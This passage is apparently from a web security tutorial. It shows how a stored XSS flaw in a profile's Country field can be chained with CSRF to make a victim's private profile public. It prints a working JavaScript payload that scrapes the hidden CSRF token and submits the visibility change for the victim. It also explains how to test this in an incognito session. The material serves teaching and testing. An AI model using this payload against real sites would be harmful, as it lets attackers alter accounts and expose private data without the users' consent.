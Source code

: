 Imagine a web application that has a mini-profile feature, which shows a user's name, email, and country. It also has a "Change Visibility" functionality, that allows a user to make their profile public or private.

Additional facts about the application:
- The application features same origin/same site protections as anti-CSRF measures (through a server configuration)
- The application's _Country_ field is vulnerable to stored XSS attacks.

For this scenario, we will target the Change Visibility functionality, because a successful CSRF attack would cause the disclosure of a private profile.

We will use the following payload and insert it in the Country field:
```html
<script>
var req = new XMLHttpRequest();
req.onload = handleResponse;
req.open('get','/app/change-visibility',true);
req.send();
function handleResponse(d) {
    var token = this.responseText.match(/name="csrf" type="hidden" value="(\w+)"/)[1];
    var changeReq = new XMLHttpRequest();
    changeReq.open('post', '/app/change-visibility', true);
    changeReq.setRequestHeader('Content-Type', 'application/x-www-form-urlencoded');
    changeReq.send('csrf='+token+'&action=change');
};
</script>
```
> Note: The snippet `/name="csrf" type="hidden" value="(\w+)"/)[1];` looks for a hidden input field called _csrf_ and \w+ matches one or more alphanumeric characters. We know there is an input field called _csrf_ by reading the page's source code using developer tools.

To simulate a victim visiting our profile, we will open an incognito window and login as a different user, we will then visit our now public profile and the payload from our profile will execute, making our victim profile publicly visible without interference from them.